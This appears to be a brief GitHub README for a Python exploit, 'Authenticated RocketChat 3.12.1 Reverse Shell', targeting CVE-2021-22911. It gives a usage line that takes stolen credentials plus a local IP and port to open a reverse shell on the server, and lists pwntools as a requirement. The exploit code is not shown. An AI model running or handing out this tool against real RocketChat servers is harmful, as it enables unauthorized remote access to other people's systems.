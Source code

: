 # Authenticated-RocketChat-3.12.1-Reverse-Shell - CVE-2021-22911
Authenticated RocketChat 3.12.1 Reverse Shell - CVE-2021-22911

Based On: https://github.com/CsEnox/CVE-2021-22911
CVE: CVE-2021-22911
Quick exploit to get a reverse shell if credentials were adquired.

Usage: python3 exploit.py -t <TARGET URL> -u <USERNAME> -p <PASSWORD> -i <LOCAL IP> -l <LOCAL PORT>
  
Requirements: This exploit uses pwntools > pip install pwn
